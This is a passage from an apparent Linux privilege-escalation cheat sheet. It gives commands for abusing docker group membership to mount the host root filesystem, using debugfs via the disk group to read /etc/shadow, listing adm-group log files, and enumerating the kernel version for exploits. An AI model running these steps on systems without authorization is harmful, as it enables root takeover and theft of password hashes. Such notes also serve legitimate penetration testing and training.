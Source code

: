 - openssl=ep (Exploit: https://int0x33.medium.com/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099)

## Groups

### Docker Group

Mount the `/` to container

```bash
docker pull alpine
docker run -v /:/mnt -it alpine /bin/sh
```

### Disk Group

!!! info
The disk group can manage disks.

Find where the root (`/`) mounted

```bash
df -h | grep "/$"
```

```bash
$ debugfs /dev/sda5
debugfs 1.45.5 (07-Jan-2020)
debugfs:  cat /etc/shadow
```

### Adm Group

!!! info
Group adm have permissions to read log files located inside /var/log/

```bash
find / -group adm 2>/dev/null | grep -v 'proc' | xargs ls -l 2>/dev/null
```

## Kernel exploit

```bash
uname -a
```

```bash
cat /etc/issue
```

```bash
cat /etc/*-release
```
